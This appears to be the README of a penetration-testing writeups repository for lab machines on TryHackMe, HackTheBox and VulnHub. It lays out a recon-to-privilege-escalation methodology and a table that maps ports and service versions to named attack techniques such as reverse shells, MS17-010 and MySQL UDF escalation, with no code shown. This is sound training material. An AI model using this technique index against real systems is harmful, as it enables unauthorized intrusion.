






# 📖 ReadMe

[](https://creativecommons.org/licenses/by-sa/4.0/)

<a name="contents"></a>
## 🔖 Contents
- ☀️ [Methodology](#methodology)
  * ⚙️ [Phase 0: Recon](#mrecon)
  * ⚙️ [Phase 1: Enumerate](#menumerate)
  * ⚙️ [Phase 2: Exploit](#mexploit)
  * ⚙️ [Phase 3: PrivEsc](#mprivesc)

- ☀️ [Stats](#stats)
  * 📊 [Counts](#counts)
  * 📊 [Top Categories](#topcategories)
  * 📊 [Top Ports/Protocols/Services](#topportsprotocolsservices)
  * 📊 [Top TTPs](#topttps)

- ⚡ [Mapping](#mapping)

- 💥 [Machines](#machines)

- ☢️ [TTPs](#ttps)
  * ⚙️ [Enumerate](#enumerate)
  * ⚙️ [Exploit](#exploit)
  * ⚙️ [PrivEsc](#privesc)

- ⚡ [Tips](#tips)

- 💥 [Tools](#tools)

- 🔥 [Loot](#loot)
  * 🔑 [Credentials](#credentials)
  * 🔑 [Hashes](#hashes)


<a name="methodology"></a>
## ☀️ Methodology [↟](#contents)
<a name="mrecon"></a>
### ⚙️ Phase #0: Recon [🡑](#methodology)
**Goal**: to scan all ports on &lt;targetip&gt;  
**Process**:
* [enumerate_nmap_initial](#enumerate_nmap_initial)
* [enumerate_nmap_tcp](#enumerate_nmap_tcp)
* [enumerate_nmap_udp](#enumerate_nmap_udp)

<a name="menumerate"></a>
### ⚙️ Phase #1: Enumerate [🡑](#methodology)
**Goal**: to find service and version details  
**Process**:
* find ttps for open ports
* start with weird services
* identify installed software and version
* find critical cve/exploits
* enumerate more common services - smb/ftp
* enumerate services with large attack vector like http at the end

<a name="mexploit"></a>
### ⚙️ Phase #2: Exploit [🡑](#methodology)
**Goal**: gain interactive access on &lt;targetip&gt;  
**Process**:
* debug available exploits for open ports

<a name="mprivesc"></a>
### ⚙️ Phase #3: PrivEsc [🡑](#methodology)
**Goal**: gain elevated privileges on &lt;targetip&gt;  
**Process**:
* debug available exploits or misconfigurations
* for nix, use [linux smart enum](https://github.com/diego-treitos/linux-smart-enumeration)
* for windows, use [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)


<a name="stats"></a>
## ☀️ Stats [↟](#contents)
### 📊 Counts [🡑](#stats)
|    #     |    TryHackMe    |     HackTheBox    |      VulnHub      |      OSCPlike     |       Owned       |
|:--------:|:---------------:|:-----------------:|:-----------------:|:-----------------:|:-----------------:|
|  Total   | `1/462 (0.22%)` | `25/248 (10.08%)` |  `24/711 (3.38%)` | `46/254 (18.11%)` | `50/1421 (3.52%)` |
| Windows  |  `0/0 (0.00%)`  |  `12/73 (16.44%)` |   `0/2 (0.00%)`   |  `12/39 (30.77%)` |  `12/75 (16.00%)` |
|   *nix   |  `0/0 (0.00%)`  |  `13/175 (7.43%)` |  `24/709 (3.39%)` | `34/177 (19.21%)` |  `37/884 (4.19%)` |
| OSCPlike |  `0/38 (0.00%)` |  `25/94 (26.60%)` | `21/122 (17.21%)` |                   | `46/254 (18.11%)` |

<a name="topcategories"></a>
### 📊 Top Categories [🡑](#stats)


<a name="topportsprotocolsservices"></a>
### 📊 Top Ports/Protocols/Services [🡑](#stats)


---


---


<a name="topttps"></a>
### 📊 Top TTPs [🡑](#stats)


---


---



<a name="mapping"></a>
## ⚡ Mapping [↟](#contents)
| # | Port | Service | TTPs | TTPs - ITW |
|---|------|-----------|------|------------|
| 1. | `21/tcp` | `ftp/Microsoft ftpd`<br /><br />`ftp/vsftpd 2.3.5` | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp) | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root) |
| 2. | `22/tcp` | `ssh/OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)`<br /><br />`ssh/OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)`<br /><br />`ssh/OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)`<br /><br />`ssh/OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)` | [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh) | [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_defaultcreds), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 3. | `23/tcp` |  | [`enumerate_proto_telnet`](https://github.com/7h3rAm/writeups#enumerate_proto_telnet) |  |
| 4. | `25/tcp` |  | [`enumerate_proto_smtp`](https://github.com/7h3rAm/writeups#enumerate_proto_smtp) |  |
| 5. | `53/tcp` |  | [`enumerate_proto_dns`](https://github.com/7h3rAm/writeups#enumerate_proto_dns) |  |
| 6. | `79/tcp` |  | [`enumerate_proto_finger`](https://github.com/7h3rAm/writeups#enumerate_proto_finger) |  |
| 7. | `80/tcp` | `http/2.4.18 ((Ubuntu))`<br /><br />`http/Apache httpd`<br /><br />`http/Apache httpd 2.0.52 ((CentOS))`<br /><br />`http/Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)`<br /><br />`http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`<br /><br />`http/Apache httpd 2.2.22 ((Ubuntu))`<br /><br />`http/Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)`<br /><br />`http/Apache httpd 2.4.18 ((Ubuntu))`<br /><br />`http/Apache httpd 2.4.25 ((Debian))`<br /><br />`http/Apache httpd 2.4.29`<br /><br />`http/Apache httpd 2.4.29 ((Ubuntu))`<br /><br />`http/Apache httpd 2.4.34 ((Ubuntu))`<br /><br />`http/Apache httpd 2.4.41 ((Ubuntu))`<br /><br />`http/Apache httpd 2.4.7 ((Ubuntu))`<br /><br />`http/HttpFileServer httpd 2.3`<br /><br />`http/Microsoft IIS httpd 6.0`<br /><br />`http/Microsoft IIS httpd 7.5` | [`enumerate_app_apache`](https://github.com/7h3rAm/writeups#enumerate_app_apache), [`enumerate_app_apache_tomcat`](https://github.com/7h3rAm/writeups#enumerate_app_apache_tomcat), [`enumerate_app_coldfusion_files`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_files), [`enumerate_app_coldfusion_version`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_version), [`enumerate_app_drupal`](https://github.com/7h3rAm/writeups#enumerate_app_drupal), [`enumerate_app_joomla`](https://github.com/7h3rAm/writeups#enumerate_app_joomla), [`enumerate_app_phpmyadmin`](https://github.com/7h3rAm/writeups#enumerate_app_phpmyadmin), [`enumerate_app_prtg`](https://github.com/7h3rAm/writeups#enumerate_app_prtg), [`enumerate_app_webmin`](https://github.com/7h3rAm/writeups#enumerate_app_webmin), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_proto_webdav`](https://github.com/7h3rAm/writeups#enumerate_proto_webdav) | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`exploit_command_injection`](https://github.com/7h3rAm/writeups#exploit_command_injection), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_hfs_cmd_exec`](https://github.com/7h3rAm/writeups#exploit_hfs_cmd_exec), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`exploit_shellshock`](https://github.com/7h3rAm/writeups#exploit_shellshock), [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell), [`privesc_bof`](https://github.com/7h3rAm/writeups#privesc_bof), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs), [`privesc_env_relative_path`](https://github.com/7h3rAm/writeups#privesc_env_relative_path), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046), [`privesc_windows_ms14_070`](https://github.com/7h3rAm/writeups#privesc_windows_ms14_070), [`privesc_windows_ms15_051`](https://github.com/7h3rAm/writeups#privesc_windows_ms15_051), [`privesc_windows_ms16_098`](https://github.com/7h3rAm/writeups#privesc_windows_ms16_098) |
| 8. | `111/tcp` |  | [`enumerate_proto_nfs`](https://github.com/7h3rAm/writeups#enumerate_proto_nfs), [`enumerate_proto_rpc`](https://github.com/7h3rAm/writeups#enumerate_proto_rpc) |  |
| 9. | `135/tcp` |  | [`enumerate_proto_rpc`](https://github.com/7h3rAm/writeups#enumerate_proto_rpc) |  |
| 10. | `139/tcp` | `netbios-ssn/Microsoft Windows netbios-ssn`<br /><br />`netbios-ssn/Samba smbd 3.X - 4.X (workgroup: WORKGROUP)` | [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067), [`exploit_smb_ms17_010`](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010) | [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067), [`exploit_smb_ms17_010`](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_usermap`](https://github.com/7h3rAm/writeups#exploit_smb_usermap), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root) |
| 11. | `161/tcp` |  | [`enumerate_proto_snmp`](https://github.com/7h3rAm/writeups#enumerate_proto_snmp) |  |
| 12. | `389/tcp` |  | [`enumerate_proto_ldap`](https://github.com/7h3rAm/writeups#enumerate_proto_ldap) |  |
| 13. | `443/tcp` | `ssl/https/Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b` | [`enumerate_app_apache`](https://github.com/7h3rAm/writeups#enumerate_app_apache), [`enumerate_app_apache_tomcat`](https://github.com/7h3rAm/writeups#enumerate_app_apache_tomcat), [`enumerate_app_coldfusion_files`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_files), [`enumerate_app_coldfusion_version`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_version), [`enumerate_app_drupal`](https://github.com/7h3rAm/writeups#enumerate_app_drupal), [`enumerate_app_joomla`](https://github.com/7h3rAm/writeups#enumerate_app_joomla), [`enumerate_app_phpmyadmin`](https://github.com/7h3rAm/writeups#enumerate_app_phpmyadmin), [`enumerate_app_prtg`](https://github.com/7h3rAm/writeups#enumerate_app_prtg), [`enumerate_app_webmin`](https://github.com/7h3rAm/writeups#enumerate_app_webmin), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_proto_webdav`](https://github.com/7h3rAm/writeups#enumerate_proto_webdav) | [`exploit_modssl`](https://github.com/7h3rAm/writeups#exploit_modssl), [`privesc_modssl`](https://github.com/7h3rAm/writeups#privesc_modssl) |
| 14. | `445/tcp` | `microsoft-ds/Windows Server 2019 Standard 17763 microsoft-ds` | [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067), [`exploit_smb_ms17_010`](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010) | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
| 15. | `636/tcp` |  | [`enumerate_proto_ldap`](https://github.com/7h3rAm/writeups#enumerate_proto_ldap) |  |
| 16. | `1337/tcp` | `http/Apache httpd 2.4.7 ((Ubuntu))` |  | [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 17. | `1433/tcp` | `ms-sql-s/Microsoft SQL Server 14.00.1000.00` | [`enumerate_proto_mssql`](https://github.com/7h3rAm/writeups#enumerate_proto_mssql), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig) | [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell) |
| 18. | `1521/tcp` |  | [`enumerate_proto_oracle`](https://github.com/7h3rAm/writeups#enumerate_proto_oracle), [`enumerate_proto_postgres`](https://github.com/7h3rAm/writeups#enumerate_proto_postgres) |  |
| 19. | `1974/tcp` |  |  | [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 20. | `2049/tcp` | `nfs_acl/2-3 (RPC #100227)`<br /><br />`nfs_acl/3 (RPC #100227)` | [`enumerate_proto_nfs`](https://github.com/7h3rAm/writeups#enumerate_proto_nfs) | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid) |
